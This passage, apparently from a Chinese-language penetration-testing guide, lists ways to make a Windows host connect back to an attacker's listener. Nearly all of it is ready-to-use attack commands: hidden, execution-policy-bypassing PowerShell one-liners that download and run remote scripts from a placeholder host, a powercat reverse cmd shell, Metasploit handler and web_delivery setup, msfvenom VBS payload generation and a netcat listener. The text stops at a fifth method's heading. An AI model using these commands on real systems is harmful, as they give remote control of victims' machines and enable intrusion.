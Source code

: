```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

执行上线。

```plaintext
powershell -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.ps1');attack.ps1"
```

2.[powercat](https://github.com/besimorhino/powercat) 上线。

此工具实现了 Netcat 功能。

\-c 反连服务器地址，-p 反连服务器端口，-e 反弹 cmd。

```plaintext
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/powercat.ps1');powercat -c <Host> -p <Port> -e cmd"
```

服务端只需等待 Shell 反弹回来即可。

```plaintext
nc -lvp <Port>
```

3.msf web\_delivery 上线。

target 2 PSH 是 PowerShell 简写，用于生成 PowerShell 脚本。

```plaintext
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
exploit -j
```

执行 msf 提供的脚本即可。

4.PowerShell 运行 cscript 程序去执行 vbs 脚本上线

生成 vbs 脚本。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f vbs -o attack.vbs
```

MSF 监听。

```plaintext
msf6> handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

下载脚本到 $env:temp，sccript 执行 attack.vbs 上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.vbs',\"$env:temp\attack.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\attack.vbs\""
```

5.PowerShell 运行 bat

